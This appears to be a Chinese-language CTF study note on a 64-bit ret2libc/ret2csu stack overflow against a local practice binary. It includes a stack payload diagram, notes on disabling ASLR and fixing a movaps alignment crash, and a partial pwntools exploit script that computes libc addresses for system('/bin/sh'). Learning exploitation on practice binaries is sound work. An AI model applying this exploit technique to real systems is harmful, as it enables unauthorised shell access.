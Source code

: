 #### payload

```python
Payload
	>Low Address
     +-------------+
     | cyclic      | <--- hexToDecimal(0x80-0x00) + 8 = 136 bytes
     | ret         | <--- 关键(64位下的 16-bytes 栈对齐)
     | pop_rdi_ret |
     | addr_bin_sh |
     | addr_system |
     +-------------+
	>High Address
```

* 破解前需要先关闭`ASLR`

* gdb调试过程中到最后`segmental fault`，程序停留在了

  ```python
  0x7ffff7e13e3c <do_system+364>    movaps xmmword ptr [rsp + 0x50], xmm0
  ```

  经查看`rsp`的值为

  ```python
  rsp   0x7fffffffd838
  ```

  没有`16-bytes`对齐，因此`rsp+0x50`没有对齐，然而`movaps`需要`16-bytes`对齐，因此执行失败，需要查找ret指令的位置填充栈空间

#### 报错`dbg`图

<img src="D:\Github\pwn\pwn_study\images\ret2csu_segment_fault.png" alt="ret2csu_segment_fault" style="zoom:38%;" />

#### exploit

```python
from pwn import *

""" VA from __libc_csu_init """
pop_rbx = 0x40121b
pop_rdi_ret = 0x401223
ret_addr = 0x40101a

""" offset from database """
offset___libc_start_main_ret = 0x24083
offset_system = 0x0000000000052290
offset_dup2 = 0x000000000010e8c0
offset_read = 0x000000000010dfc0
offset_write = 0x000000000010e060
offset_str_bin_sh = 0x1b45bd
offset___libc_start_main = 0x0000000000023f90
offset_puts = 0x0000000000084420
offset_exit = 0x0000000000046a40

""" addr of functions in libc """
addr_write = 0x7ffff7ed0060

libcBase = addr_write - offset_write

addr_system = libcBase + offset_system  # shell function addr

addr_str_bin_sh = libcBase + offset_str_bin_sh  # parameter

addr_exit = libcBase + offset_exit  # exit function

io = process('./level')
```